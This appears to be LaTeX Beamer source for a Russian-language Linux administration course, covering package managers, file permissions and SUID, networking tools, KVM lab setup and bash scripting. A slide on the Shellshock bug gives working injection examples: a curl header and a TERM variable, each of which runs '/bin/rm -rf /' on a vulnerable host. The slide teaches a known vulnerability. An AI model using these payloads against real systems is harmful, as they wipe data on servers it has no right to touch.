%	\end{itemize}
%\end{frame}

\begin{frame}[fragile]{sed}
	\begin{block}{Сценарии}
		{\tt [ addr [ ,  addr ] ] cmd [ args ]}
	\end{block}

	\tiny
	\begin{block}{Команды}
		\begin{itemize}
		  \item {\tt d} -- удалить строку
			  \begin{verbatim} who | sed -e '2,4 d' \end{verbatim}
			  \begin{verbatim} who | sed -e '/pts/ d' \end{verbatim}
		  \item {\tt s} -- замена по регулярному выражению
			  \begin{verbatim} who | sed -e "s/USER/user/g" \end{verbatim}
		  \item {\tt a, i} -- добавить строку после (перед) текущей
			  \begin{verbatim} who | sed -e 'a Text' \end{verbatim}
		\end{itemize}
	\end{block}
%	\pause
%	\begin{block}{Задача}
%		С помощью {\tt find} найти все вложенные директории в {\tt /etc} и 
%		''переделать'' их в windows-style
%	\end{block}
\end{frame}
}

\chapter{Система управления пакетами}
\section{Система управления пакетами}
\mode<all>{\begin{frame}{Сетевая подсистема Linux}

	\begin{block}{Cетевой интерфейс}

		Сетевой интерфейс в Linux -– это абстрактный \alert{именованный} объект,  используемый для передачи 
		данных через некоторую линию связи без привязки к ее (линии связи) реализации.
	\end{block}
\end{frame}

\begin{frame}{Сетевая подсистема Linux}

	\center\includegraphics[width=0.9\textwidth]{../../slides/networking/06-netstack.png}

\end{frame}


}

\mode<all>{\begin{frame}{RPM: структура пакета}
	\begin{itemize}
		\item Метаданные
			\begin{itemize}
				\item Имя
				\item Версия/Релиз
				\item Группа
				\item Описание
                                \item Зависимости
				\item ...
			\end{itemize}
		\item Архив с файлами
			\begin{itemize}
				\item cpio
			\end{itemize}
		\item Скрипты
			\begin{itemize}
				\item Pre Install
				\item Post Install
				\item Pre Uninstall
				\item Post Uninstall \bigskip
				\item Triggers
			\end{itemize}
	\end{itemize}
\end{frame}

\begin{frame}{Система управления пакетами: для чего это нужно}
\begin{itemize}
 \item ''DLL Hell''
 \item Dependency hell
 \item Общие задачи пакетного менеджера:
   \begin{itemize}
     \item Проверка целостности пакетов
     \item Проверка зависимостей пакетов
        \item Поддержание списка установленных пакетов
        \item Автоматическое удаление пакетов
     \item Предоставление доступа к репозиторию пакетов
     \item Разрешение зависимостей
   \end{itemize}
\end{itemize}
\end{frame}

\begin{frame}{Debian-based и RedHat-based системы управления пакетами}

\begin{center}
 \textbf{Два уровня пакетных менеджеров}
\end{center}

\begin{tabular}{| l | c | r |}
      \hline
          Level &  RedHat-based & Debian-based \\ 
      \hline
          Low & rpm & dpkg \\ 
      \hline
          High & yum, dnf & apt, aptitude \\
      \hline
    \end{tabular}

    Низкоуровневые используются для установки, удаления, получения информации о пакете. \\
    Высокоуровневые предоставляют дополнительные функции такие как поиск по репозиторию, копирование пакета из репозитория, разрешение зависимостей, обновление системы.

\end{frame}

}

\mode<all>{\begin{frame}{RPM: команды}
	\begin{block}{Установка пакета}
		{\tt rpm -i [rpm-file1] ... [[url://]rpm-fileN] }
	\end{block}
	\begin{block}{Удаление пакета}
		{\tt rpm -e pkgname1 ... pkgnameN }
	\end{block}
	\begin{block}{Обновление пакета}
		{\tt rpm -U [rpm-file1] ... [[url://]rpm-fileN] }
	\end{block}
	\begin{block}{Проверка пакета}
		{\tt rpm -V pkgname1 ... pkgnameN }
	\end{block}
\end{frame}

\begin{frame}{RPM -q: часто используемые опции опроса}

	\begin{itemize}
		\item {\tt pkgname} -- выбор пакета, установленного в системе
		\item {\tt -a} -- все пакеты, установленные в системе
		\item {\tt -p} -- использовать файл RPM
	\end{itemize}


	\begin{itemize}
		\item {\tt -i} -- показать информацию пакета\\
			{\tt rpm \alert{-q} \alert{-i} glibc }
		\item {\tt -l} -- показать список файлов пакета \\
			{\tt rpm \alert{-q -l} glibc }
		\item {\tt -{}-whatprovides} -- \\
			{\tt rpm \alert{-q --whatprovides} java}
		\item {\tt -{}-whatrequires} -- \\
			{\tt rpm \alert{-q --whatrequires} /bin/bash}
		\item {\tt -{}-queryformat} -- формат вывода\\
			{\tt rpm \alert{-q -{}-whatrequires} /bin/bash \alert{-{}-queryformat ''\%\{name\} ''} }

	\end{itemize}

\end{frame}


\begin{frame}{Команды пакетных менеджеров}
        \begin{tabular}{ll}
            \multicolumn{2}{c}{Установка пакета }   \tabularnewline
            Debian & {\tt apt-get \alert{install} pkgname } \\
            CentOS & {\tt yum \alert{install} pkgname } \\
            \multicolumn{2}{c}{Обновление пакета }  \tabularnewline
            Debian & {\tt apt-get \alert{install} pkgname } \\
            CentOS & {\tt yum \alert{update} pkgname }  \\
            \multicolumn{2}{c}{Удаление пакета }   \tabularnewline
            Debian & {\tt apt-get \alert{remove} pkgname } \\ 
            CentOS & {\tt yum \alert{remove} pkgname }  \\
            \multicolumn{2}{c}{Поиск. По имени пакета}   \tabularnewline
            Debian & {\tt apt-cache \alert{search} pkgname } \\
            CentOS & {\tt yum \alert{list} pkgname }  \\
            \multicolumn{2}{c}{Поиск. По имени файла}   \tabularnewline
            Debian & {\tt apt-file \alert{search} path } \\
            CentOS & {\tt yum \alert{provides} file} 
        \end{tabular}
\end{frame}
}

\mode<all>{\newcounter{tmpc}

\begin{frame}{Репозиторий}
	\begin{block}{Репозиторий пакетов}
		Место, где хранятся и поддерживаются пакеты, а также сопутствующая мета-информация, предназначенное для использования пакетным менеджером.
	\end{block}
	\begin{block}{Пример: Fedora Core}
		\begin{itemize}
			\item Packages/*.rpm
			\item RPM-GPG-KEY-*
			\item repodata
			\begin{itemize}
				\item множество сжатых и несжатых XML файлов для YUM
			\end{itemize}
		\end{itemize}

		Описание репозтория для YUM на локальной системе хранится по пути
		{\tt /etc/yum.repos.d/*.repo}
	\end{block}
		
\end{frame}

\begin{frame}{Apt: команды}
	\begin{block}{Установка/обновление пакета}
		{\tt apt-get install pkgname }

                {\tt apt-get -f install}
	\end{block}
	\begin{block}{Обновление данных о пакетах}
		{\tt apt-get update }
	\end{block}
	\begin{block}{Удаление пакета}
		{\tt apt-get remove pkgname }
	\end{block}
	\begin{block}{Поиск}
		{\tt apt-cache search pkgname }
	\end{block}
\end{frame}

\begin{frame}{YUM: команды}
	\begin{block}{Установка/обновление пакета}
		{\tt yum install pkgname }
	\end{block}
	\begin{block}{Обновление всех пакетов}
		{\tt yum update }
	\end{block}
	\begin{block}{Удаление пакета}
		{\tt yum remove pkgname }
	\end{block}
	\begin{block}{Поиск}
		{\tt yum list pkgname }\\
		{\tt yum search pkgname }
	\end{block}
\end{frame}


\begin{frame}[fragile]{Упражнение}
%  \begin{enumerate}
%      \item Создать на {\tt /dev/sda} раздел размером примерно 10Gb
%      \item Создать на этом разделе ext3 ФС и смонтировать раздел в {\tt /mnt/chroot}
%      \item Развернуть {\tt /media/nfs/pub/CentOS/precreated/centOS.tar.gz} в {\tt /mnt/chroot}
%      \item Смонтировать {\tt proc, sysfs} а также {\tt /dev} в соответствующие места {\tt /mnt/chroot}
%      \item {\tt chroot /mnt/chroot}
%      \item Отредактировать {\tt /etc/resolv.conf} -- скопировать туда информацию из {\tt resolv.conf} основной системы
%      \item Отредактировать {\tt /etc/yum.conf} Добавить следующий раздел
%\begin{minipage}{0.5\textwidth}
%\begin{verbatim}
%[base]
%  name = CentOS 6
%  baseurl = ftp://192.168.11.15/CentOS
%  gpgcheck = 0
%\end{verbatim}
%\end{minipage}
%\setcounter{tmpc}{\theenumi}
%\end{enumerate}
%\end{frame}
%\begin{frame}{Продолжение упражнения}
  \begin{enumerate}
      %\setcounter{enumi}{\thetmpc}
      \item Обновить информацию о пакетах {\tt update}
      \item Удалить пакет vim
      \item Установить заново пакет vim
      \item Посмотреть списки файлов для пакетов {\tt rpm, vim}
      \item Найти, к какому пакету относится команда {\tt ls, top}
      \item Найти пакет предоставляющий сервис ssh и установить его
    \end{enumerate}
\end{frame}
}

\chapter{Пользователи и привилегии}
\newcommand{\defaultuser}{USER}
\section{Многопользовательская модель UNIX}
\mode<all>{\begin{frame}{Многопользовательская модель}   
 \begin{itemize}
   \item Linux -- многопользовательская система
   \item Привилегии пользователей
     \begin{itemize}
       \item root
       \item other users
      \end{itemize}
     \end{itemize}
\end{frame}

%\section{Механизмы разделения привилегий}
%\subsection{Классический UNIX}

\begin{frame}{Пользователи, группы и файлы}
\begin{itemize}
  \item Каждый пользователь принадлежит одной или нескольким \textbf{группам}
  \item Каждый файл и директория принадлежит
    \begin{itemize}
      \item Одному пользователю 
      \item Одной группе
    \end{itemize}
  \pause
  \item  Разрешения что либо делать с файлом определяются по отношению к
    \begin{enumerate}
      \item Пользователю-владельцу файла
      \item Группе владеющей файлом
      \item Всем остальным пользователям
    \end{enumerate}

\end{itemize}
\pause
\begin{columns}
  \column{0.48\textwidth}
  \begin{itemize}
    \item {\tt ls -l} 3,4 поле 
    \item {\tt groups}
   \end{itemize}
  \column{0.48\textwidth}
  \begin{block}{Попробовать}
    {\tt ls -l /usr/bin/}

    {\tt groups}

    {\tt groups root}
  \end{block}
\end{columns}
\end{frame}
}

\mode<all>{\begin{frame}{Типы разрешений для файлов}
	\begin{columns}
		\column{0.48\textwidth}
		\begin{center}
			\textbf{Разрешения для файла}
		\end{center}
		\begin{itemize}
			\item Три типа разрешений
				\begin{enumerate}
					\item чтение read(r)
					\item запись write(w)
					\item выполнение execute(x)
				\end{enumerate}
		\end{itemize}
		\column{0.48\textwidth}
		\begin{center}
			\textbf{Разрешения для директорий}
		\end{center}
		\begin{itemize}
			\item Три типа разрешений
				\begin{enumerate}
					\item поиск файлов в директории read(r) 
					\item добавление и удаление файлов write(w)
					\item заход в директорию execute(x)
				\end{enumerate}
		\end{itemize}
	\end{columns}

	\pause

	Попробовать {\tt ls -l /usr/bin}

	\pause

	Пересчет мнемонического разрешения в битовую маску 

	$r\to4, w\to2 , x\to1$ 

	rwxrw-r-x$\to$765
\end{frame}

\begin{frame}{Команды для управления пользователями и разрешениями файлов}
	\begin{columns}
		\column{0.48\textwidth}
		\begin{itemize}
			\item {\tt chown}
			\item {\tt chmod}
		\end{itemize}
		\column{0.48\textwidth}
		\begin{itemize}
			\item {\tt useradd, usermod, userdel}
			\item {\tt groupadd, groupmod, groupdel}
			\item {\tt su, sudo}
		\end{itemize}
	\end{columns}
\end{frame}

%\begin{frame}
%    \frametitle{}
%	\begin{block}{Упражнения}
%		\begin{enumerate}
%			\item Создать директорию без r разрешения но с x разрешением, внутри нее создать поддиректорию с rwx разрешениями (для пользователя \defaultuser)
%			\item Создать нового пользователя testuser.
%			\item Скопировать {\tt /bin/bash} (под именем mysh) в домашнюю директорию пользователя \defaultuser  и поставить r-x разрешение только для other
%			\item Попробовать выполнить скопированный файл от имени пользователя \defaultuser, затем от имени пользователя testuser
%       \end{enumerate}
%    \end{block}
%\end{frame}
%\begin{frame}
%    \frametitle{}
%	\begin{block}{Упражнения}
%		\begin{enumerate}
%			\item Создать новую группу testgroup
%			\item Изменить группу владеющую mysh на testgroup и сделать {\tt chmod 474 mysh}
%			\item Попробовать выполнить mysh от имени \defaultuser и root. 
%			\item Добавить пользователя \defaultuser в группу testgroup и попробовать выполнить mysh еще раз
%			\item Получить список групп которым принадлежат устройства в {\tt /dev}
%		\end{enumerate}
%	\end{block}
%\end{frame}

\begin{frame}{SUID программы}
	\begin{block}{Попробовать}
		{\tt id}

		{\tt ls -l `which su`}
	\end{block}
	\pause
	\begin{itemize}
		\item Некоторые программы должны выполняться от имени обычного пользователя, но иметь больше привилегий
		\item Для этого у них устанавливается suid или sgid биты
		\item Установка suid (например {\tt chmod 4710 <file>})
	\end{itemize}
	\pause
	\begin{block}{Упражнение}
		\begin{itemize}
			\item Под root создать копию утилиты {\tt id} (назвать, например, {\tt id2}) в директории /usr/bin/
			\item Установить suid бит для этой утилиты
			%\item Запустить {\tt id2} от имени пользователя defaultuser
			%\item тоже с sgid битом
		\end{itemize}
	\end{block}
\end{frame}

\begin{frame}{Опасности SUID}
	\begin{itemize}
		\item Возможность backdoor через suid программу
			\begin{itemize}
				\item Shell игнорирует effective uid
				\item Скрипты обычно тоже игнорируют
				\item nosuid mount option
			\end{itemize}
		\item Атака через buffer overflow в существующей suid программе
			\begin{itemize}
				\item не использовать strcpy, sprintf, ... в security critical
				\item А если все же не уследили
					\begin{itemize}
						\item рандомизация стека
						\item grsecurity
						\item частично selinux
					\end{itemize}
			\end{itemize}
	\end{itemize}
\end{frame}


\begin{frame}{SUID, SGID и sticky bit для директорий}
	\begin{itemize}
		\item sgid для директорий -- все поддиректории и файлы внутри имеют тот же group id
		\item suid -- игнорируется
		\item Sticky bit (\tt{chmod +t mydir})
          \begin{itemize}
            \item Файлы из обычной директории может удалять любой пользователь с правами на запись в \emph{директорию}
            \item Файлы из директории со sticky bit может удалять только владелец директории, владелец файла или root.
          \end{itemize} 
	\end{itemize}
\end{frame}

\begin{frame}[fragile]
 \frametitle{UMASK}

	\begin{block}{umask}
		маска режима создания пользовательских файлов
	\end{block}

	Права доступа файлов, вычисляются c помощью побитовых операций:
    \begin{itemize}
      \item библиотечный вызов \tt{fopen} создает файл с разрешениями 
     \verb+ 0666 & ~umask +
      \item Системный вызов \tt{open(pathname,flags,mode)} создает файл с разрешениями \verb+ mode & ~umask +
   \end{itemize}
        

\end{frame}



}
\section{Внутренний механизм управления пользователями}
\mode<all>{\input{../../slides/multiuser/account_files.tex}}

\mode<all>{\input{../../slides/multiuser/pam.tex}}
\let\defaultuser\undefined

\chapter{Дисковая подсистема}

\section{Блочные устройства}
\mode<all>{\input{../../slides/disk/disk-intro.tex}}
\section{Основные команды}
\mode<all>{\input{../../slides/disk/disk-simple_management.tex}}
\section{GPT}
\mode<all>{\input{../../slides/disk/disk-gpt.tex}}
\section{LVM}
\mode<all>{\input{../../slides/disk/lvm.tex}}

\chapter{Сетевая подсистема}

\section{Основы работы с сетевой подсистемой}

\mode<all>{\begin{frame}{Сетевая подсистема Linux}

	\begin{block}{Cетевой интерфейс}

		Сетевой интерфейс в Linux -– это абстрактный \alert{именованный} объект,  используемый для передачи 
		данных через некоторую линию связи без привязки к ее (линии связи) реализации.
	\end{block}
\end{frame}

\begin{frame}{Сетевая подсистема Linux}

	\center\includegraphics[width=0.9\textwidth]{../../slides/networking/06-netstack.png}

\end{frame}


}

\subsection{Управление интерфейсами}
\mode<all>{\input{../../slides/networking/interface-management}}

\subsection{Полезные программы}
\mode<all>{\begin{frame}{Полезные утилиты}
	\begin{center}
		\begin{itemize}
			\item netstat / ss
			\item nslookup / dig
			\item ping
			\item traceroute
			\item tcpdump
			\item telnet
			\item netcat
			\item nmap
		\end{itemize}
	\end{center}

\end{frame}


%\begin{frame}{Полезные утилиты: практика}
%
%	\begin{columns}
%		\column{0.5\textwidth}
%		\begin{block}{netstat}
%
%			Узнать:
%			\begin{itemize}
%				\item список используемых сокетов
%				\item серверных сокетов
%				\item имена/pid серверов
%				\item узнать номера портов
%			\end{itemize}
%		\end{block}
%	
%		\pause
%		\column{0.5\textwidth}
%		\begin{block}{telnet/netcat}
%
%			\begin{itemize}
%				\item Чат по протоколу TCP с соседом
%				\item Чат по протоколу UDP с соседом
%				\item Передать текстовый и бинарный файлы
%			\end{itemize}
%	
%			При создании чата использовать {\tt netstat} и {\tt tcpdump}
%			для получения информации о соединении.
%		\end{block}
%	
%	\end{columns}
%\end{frame}
%
%nmap
%1. сканирование соседа
%2. сканирование выделенных портов у соседа (поиск сервера чата) 
%3. узнать список открытых портов на всех машинах в 505
%4. узнать список  работающих машин
%
%tcpdump
%0. pcap файлы/libpcap
%1. запуск монитора
%2. запуск чата
%3. монитор-фильтр-анализ
%
}

\section{ssh}
\mode<all>{\begin{frame}{Secure shell}

	\begin{block}{ssh -- терминал}
		{\tt ssh [user@]host[:port]}\\
		{\tt ssh host [-l user] [-p port]}
		\begin{itemize}
			\item -v -- "разговорчивый" режим 
			\item -t -- насильное назначение псевдотерминала (для автоматизации)
		\end{itemize}
		Вся конфигурация пользователя: {\tt \$HOME/.ssh}
	\end{block}

	\pause

	\begin{block}{... и не только}
		\begin{itemize}
			\item -X -- "проброс" графики 
			\item -L [bindip:]port:rhost:rport -- "пробрасывание" порта с удаленной машины на локальную
			\item -R [bindip:]port:lhost:lport -- "пробрасывание" порта с локальной машины на удаленную
			\item -W host:port -- stdin/stdout с указанным хостом
			\item -D port -- динамический прокси
		\end{itemize}
	\end{block}
\end{frame}


}


\section{Дополнительные типы интерфейсов}

\subsection{alias, vlan}
\mode<all>{\input{../../slides/networking/alias_vlan}}
\subsection{Мосты}
\mode<all>{\input{../../slides/networking/bridge}}
\subsection{Тоннели}
\mode<all>{\input{../../slides/networking/tuntap}}

\section{Маршрутизация}
\mode<all>{\input{../../slides/networking/routing}}

\section{iptables}
\mode<all>{\input{../../slides/networking/iptables}}

\chapter{Самостоятельная работа}
\mode<all>{\begin{frame}{Практика: создание тестовой среды}

	\center\includegraphics[height=0.4\textheight]{../../slides/networking/net-practice.png}


	\begin{block}{Задача}
		Запустить 3 идентичные виртуальные машины.\\
		Каждой машине назначить адрес из отдельного IP диапазона.\\
		Организовать сетевую ''видимость'' между виртуальными машинами, а также хостом.		
	\end{block}

\end{frame}



\begin{frame}
	\frametitle{Подготовка дисковой подсистемы}
			\begin{itemize}
				\item Создать пустой файл размером от 1.5 GB и отобразить на устройство
					/dev/loop0 ({\tt dd, losetup})
				\item Создать группу томов на базе этого устройства ({\tt pvcreate, vgcreate})
				\item Выделить 1 GB под логический диск ({\tt lvcreate})
				%\item Скопировать образ виртуального диска в полученный логический том ({\tt dd})
				%\item Создать снимок логического тома на 100MB ({\tt lvcreate}) для каждой виртуальной машины.
			\end{itemize}
\end{frame}

\begin{frame}[fragile]{Установка системы}
        \begin{itemize}
		\item Установить centos-minimal на  машину из iso файла.
		\item Создать два снимка логического тома виртуальной машины
		\item Убедиться в наличии tap интерфейсов
	\end{itemize}

\end{frame}

\begin{frame}[fragile]{Пример запуска kvm}
		\begin{itemize}
          \item {\tt modprobe kvm-intel} {\small Включаем модуль поддержки виртуализации в ядре} 
          \item {\tt modprobe tun}  {\small Включаем поддержку tun, tap виртуальных сетевых интерфейсов}
          \item 
            \begin{lstlisting}[language=bash,basicstyle=\tiny] 
kvm -enable-kvm -cdrom centos-minimal.iso -hda /dev/loop0 -m 512M   \
    -boot order=cd -serial stdio -net nic,model=rtl8139 -net tap,ifname=tap0 
            \end{lstlisting}
              \begin{enumerate}
                \item[{\tt -enable-kvm}] Включает ядерную поддержку виртуализации
                \item[{\tt -cdrom}] Устройство или disk image, cdrom виртуальной машины
                \item[{\tt -hda}] Устройство или disk image, представляет жесткий диск VM
                \item[{\tt -serial}] Перенаправление com порта (консоль ядра)
                \item[{\tt -net nic}] Условная модель сетевой карточки
                \item[{\tt -net tap}] TAP интерфейс, на который будет приходить сеть из VM
                \item[{\tt -boot order}] cd (вначале cdrom (с), потом диск (d))
                \item[{\tt -m}] Объем памяти для VM
              \end{enumerate}
        \end{itemize}
\end{frame}        


\begin{frame}
	\frametitle{Настройка сети на хосте}
			\begin{itemize}
				\item Создать мост {\tt brctl} и назначить ему адреса из соответствующих диапазонов {\tt ifconfig/ip}
				\item Поднять виртуальные интерфейсы {\tt ifconfig/ip}
				\item Добавить виртуальные интерфейсы к мосту {\tt brctl}
			\end{itemize}
\end{frame}


\begin{frame}
	\frametitle{Настройка сети на виртуальных машинах}
			\begin{itemize}
				\item Назначить адрес устройству eth0 {\tt ifconfig/ip}
				\item Добавить адрес маршрутизатора по умолчанию {\tt route/ip}
				\item Проверить доступность виртуальных машин и хоста {\tt ping/nmap}
			\end{itemize}
\end{frame}

\begin{frame}
	\frametitle{Настройка роутинга и NAT}
			\begin{itemize}
				\item Разрешить форвардинг на хосте
				\item Настроить NAT на хосте ({\tt iptables},  правило {\tt MASQUERADE})
				\item Проверить доступность хостов из ''внешней'' сети {\tt ping/nmap}
			\end{itemize}
\end{frame}
}
}


\part{BASH}
\chapter*{Bourne Again Shell}
\section{Переменные}
\mode<all>{%% Vars


\begin{frame}
	\frametitle{Переменные}
	\large\center{Нетипизированные!!!}

	Для прямого обращения необходимо использовать префикс \\
	\center{\Large{\tt \$}}

	Фигурные скобки используют для отделения от текста:\\
	\center{\tt \$VARrest != \$\{VAR\}rest}

	%\bigskip
	
	\begin{alertblock}{Используют без префикса}
		\begin{itemize}
			\item в объявлении declare var
			\item в присвоении declare var=10
			\item чтение в командe read var
			\item удаление unset var
			\item в арифметических операциях {\tt (( a=b+c ))}
		\end{itemize}
	\end{alertblock}
\end{frame}

\begin{frame}[fragile]
	\frametitle{Задание. Присвоить переменной значение.}

	\begin{lstlisting}
#!/bin/bash

VAR=string
echo $VAR
	\end{lstlisting}


	\begin{block}{Изменить и посмотреть на результат.}
		\begin{itemize}
			\item Добавить пробел до знака ''{\tt =}''
			\item Добавить пробел после знака ''{\tt =}''
			\item Присвоить переменной VAR значение: I love \$\$\$!
			\item Создать переменные с другим именем и значением var 1var \_var var1
		\end{itemize}
	\end{block}

\end{frame}

\begin{frame}[fragile]
	\frametitle{Косвенное обращение к переменной}

	Косвенное (indirect) обращение к переменной: {\tt \$\{!VARIABLE\}}

	\begin{block}{Пример}
		\begin{lstlisting}
#!/bin/bash 
num=$# 
lastarg=${!num} 
echo $num $lastarg
		\end{lstlisting}
	\end{block}

\end{frame}


\begin{frame}
	\frametitle{Типы переменных}
	\begin{itemize}
		\item Локальные\\
		    Область видимости -- текущая программа, функция или субшелл
		\item Окружения
		\item Позиционные параметры
	\end{itemize}
\end{frame}



\begin{frame}
	\frametitle{Внешние переменные}

	\center{Наследование внешней переменной}

	\begin{itemize}
		\item export
		\item Переданное в командной строке \\
			\begin{block}{Пример}
				{\tt TEST=123 make}
			\end{block}
	\end{itemize}
\end{frame}


\begin{frame}[fragile]
	\frametitle{Специальные переменные}

	Часто используемые в скриптах:

	\begin{itemize}
		\item Разделитель \$IFS
		\item Директории -- домашняя \$HOME и текущая \$PWD
		\item UID пользователя -- \$UID
		\item ID процесса -- \$\$
		\item Имя хоста -- \$HOSTNAME
		\item Вид командной строки: \$PS1 -- \$PS4
		\item Локализация
			\begin{itemize}
				\item Используемый язык \$LANG
				\item Локализация \$LC\_ALL
					\begin{block}{Пример}
						\begin{lstlisting}
ls -l 
LC_ALL=C ls -l
						\end{lstlisting}
					\end{block}
			\end{itemize}
	\end{itemize}

\end{frame}



}
\section{Скрипты и запуск}
\mode<all>{\input{../../slides/bash/runtime}}
\section{Параметры}
\mode<all>{\begin{frame}
	\frametitle{Специальные параметры}

	Позиционные параметры - передаются при запуске скрипта, средство передачи данных в скрипт.

        Например: 

        ./myscript.sh file.txt /tmp/

        \$1 file.txt

        \$2 /tmp/
        
	\begin{itemize}
		\item \$0-9, \$\{10\}.. -- значение соответствующего параметра
		\item \$\# -- количество переданных параметров
		\item \$* -- представляется, как одна строка
		\item \$@ -- каждый параметр, как отдельная строка
	\end{itemize}

\end{frame}


\begin{frame}[fragile]
	\frametitle{shift}

	Встроенная команда сдвига параметров влево.

        По умолчанию сдвигает на один параметр.

	В качестве параметра может принимать число -- на сколько параметров сдвигать.

\begin{lstlisting}
shift [num]
\end{lstlisting}

\end{frame}


% \begin{frame}
%	\frametitle{Задание}
%
%	\begin{enumerate}
%		\item Написать скрипт,  который выдает количество переданных параметров
%			\pause
%		\item Вывести на экран имя команды
%			\pause
%		\item Сделать symlink на скрипт и запустить
%			\pause
%		\item Вывести на экран первых 3 параметра
%			\pause
%		\item Передать строку "I am user \$USER" в качестве параметра
%			\begin{itemize}
%				\item Без экранирования
%				\item С экранированием ''
%				\item С экранированием '
%			\end{itemize}
%			\pause
%		\item Добавить shift перед выводом параметров
%	\end{enumerate}
%\end{frame}
%

}
\section{Тесты и сравнения}
\mode<all>{\input{../../slides/bash/tests}}
%\section{Операторы}
%\mode<all>{\input{../../slides/bash/operators}}
\section{Арифметические операции}
\mode<all>{\input{../../slides/bash/arithmetic}}
\section{Циклы}
\mode<all>{\input{../../slides/bash/loops}}
\section{Условные операторы}
\mode<all>{
\begin{frame}[fragile]
\frametitle{Синтаксис {\bf if}}

	\begin{columns}
		\column{0.3\textwidth}
	
	\begin{lstlisting}[language=bash]
if условие1
then
   . . .
elif условие2
then
   . . .
else
   . . .
fi
\end{lstlisting}
		\column{0.7\textwidth}
	\pause
	{\bf Практическое задание:} \\
	\begin{itemize}

		\item с помощью конструкции {\bf if} проверить существует ли файловый объект передаваемый в качестве параметра скрипту ({\tt man test})
		\item если нет, то создать директорию с таким именем
		\item если cуществует и файл является shell-скриптом ({\tt man file}), то запустить его
		\item если существует и является директорией, то вывести на экран Top5 по размеру файлов из этой директории, 
		    отсортированных в порядке убывания ({\tt man ls, man head})
	\end{itemize}
	\end{columns}
\end{frame}

\begin{frame}[fragile]
\frametitle{Условные операторы: case}

	\small
	\begin{columns}
		\column{0.3\textwidth}

		\begin{lstlisting}[language=bash]
case "$variable" in 
 pattern1) command1
           command2
          ;;
 pattern2|pattern3)
         command3
         command4
        ;;
esac
\end{lstlisting}
		\pause

		\column{0.7\textwidth}
		{\normalsize Пример:}

		\begin{lstlisting}[language=bash]
#!/bin/bash

cmd=$1; var=$2
case "$cmd" in 
  --print|--echo)
    echo "Ура, печатаем!" ;;
  abc*|xyz*)
    echo "Странная команда $cmd" ;;
  *)
    echo "Я таких команд не знаю: $cmd" 1>&2
    exit 1 ;;
esac
[ ! -z "$var" ] && echo "переменная \$var=$var"
exit 0
\end{lstlisting}


	\end{columns}
\end{frame}

\begin{frame}[fragile]
\frametitle{case + getopt}
	Внешняя команда для обработки аргументов командной строки.
	\small
	\begin{lstlisting}
SHORTOPTS="af:h"
LONGOPTS="flagA,file:,help"
OPTS=$(getopt -o "$SHORTOPTS" -l "$LONGOPTS" -- "$@")

eval set -- "$OPTS" #  устанавливает $1 $2 ...

while [ $# -gt 0 ] ; do
  case $1 in
    -a|--flagA) FLAGA=$1 ; shift ;;
    -f|--file) FILE=$1; FILENAME="$2"; shift 2 ;;
    -h|--help) echo "Usage:$0 [-a|--flagA] [-h|--help] [-f|--file <filename>]"; exit 0;;
    --) shift; break ;; # skip this one
    *) ;;
  esac
done
\end{lstlisting}
\end{frame}


\begin{frame}[fragile]
	\frametitle{case + getopts}
	
	Встроенная в bash обработка командной строки.

\begin{lstlisting}[language=sh,frame=single]
while getopts "af:h" Option
do
  case $Option in 
    a) FLAGA=1 ;;
    f) FILE=1
       FILENAME=$OPTARG
       ;;
    h) echo "Usage: $0 [-ah] -f <filename>";;
  esac  
done
shift $((OPTIND-1))
\end{lstlisting}
\end{frame}


\begin{frame}
\frametitle{Домашнее задание}

	Написать скрипт, который будет создавать файл, 
	записывать туда текущее время и переданную строку,
	используя при этом следующие аргументы командной строки: 

	\begin{enumerate}
		\item -f или -{}-file <имя файла>\\
			если отсутствует имя файла, то выйти с соответствующим сообщением;
		\item -l или -{}-log <строка>\\
			если отсутствует <строка>, то выйти с соответствующим сообщением;
		\item -a или -{}-append \\
			необязательный флаг, указывающий будет ли файл переписан, либо дописан.
	\end{enumerate}

	Cкрипт должен обрабатывать переданные аргументы с использованием {\tt getopt} либо {\tt getopts}.

\end{frame}

\begin{frame}[fragile]
\frametitle{Условные операторы: select}

	\small
	\begin{columns}
		\column{0.3\textwidth}

		\begin{lstlisting}[language=sh,frame=single]
select variable [in list]
do
  command...
  break
done 
		\end{lstlisting}
		\pause
		\column{0.7\textwidth}
		{\normalsize Пример:}

		\begin{lstlisting}
#!/bin/bash
PS3="Какого вы пола? "
select sex in "девочка" "мальчик" "еще не определилось"
do
  echo
  [ "$sex" == "девочка" -o "$sex" == "мальчик" ] && break || echo "Определитесь пожалуйста!"
done
echo "Вы -- $sex"
exit
\end{lstlisting}

		\pause
		\center{Удалить в select все [in *] и посмотреть на результат работы.}

	\end{columns}
\end{frame}


}
\section{Функции}
\mode<all>{\begin{frame}
	\frametitle{Функции}

	\begin{itemize}
		\item Именованные
		\item Неименованные
	\end{itemize}

	Функции в shell могут использоваться как обычные программы, которые:
	\begin{itemize}
		\item Принимают позиционные параметры;
		\item возвращают статус;
		\item Могут использоваться в качестве источника либо приемника 
			при перенаправлениях ввода/вывода.
	\end{itemize}

\end{frame}


\begin{frame}[fragile]
	\frametitle{Функции: синтаксис}
	\begin{itemize}
		\item Классический синаксис: 
			\begin{lstlisting}
function function_name {
  command...
}
\end{lstlisting}
		\item Портабельный (C-style):
			\begin{lstlisting}
function_name()
{
  command...
} 
\end{lstlisting}

		\item Однострочный:
			\begin{lstlisting}
function_name () { command... ;}
\end{lstlisting}
  \end{itemize}
\end{frame}

\begin{frame}[fragile]
	\frametitle{Пример: shellshock}
	\begin{block}{Однострочный синтаксис}
			\begin{lstlisting}
function_name () { command... ;}
\end{lstlisting}
	\end{block}

    В 2014 году вскрылась уязвимость, существовавшая с {\bf 1992} г.:

	\begin{block}{Shellshock}
			\begin{lstlisting}
export badvar='(){:;}; echo "The Matrix has you"'
bash -c "echo Just a simple shell call"
\end{lstlisting}
	\begin{itemize}
	    \item Объявление переменной
	    \item Создание процесса, наследующего опасную переменную
	    \item При инициализации окружения {\tt bash} запускает на выполнение все, что следует за ``объявлением'' функции
	\end{itemize}
	\end{block}

\end{frame}

	\begin{block}{Пример использования}
	На любой уязвимый сайт с CGI-скриптами:
			\begin{lstlisting}
curl -H "User-Agent: () { :; }; /bin/rm -rf /" http://example.com/
\end{lstlisting}
	 В CGI все заголовки преобразуются в переменные окружения.
	\end{block}

	\begin{block}{Пример использования 2}
	Для любой команды {\tt sudo}
			\begin{lstlisting}
TERM='() { :; }; /bin/rm -rf / ' sudo mount /dev/cdrom
\end{lstlisting}
	Переменная {\tt TERM} не преобразуется и не сбрасывается.
	\end{block}



\begin{frame}[fragile]
	\frametitle{Пример (начало)}
	\small
	\begin{lstlisting}
#!/bin/bash

function help {
  echo "Использование: $0 <string>"
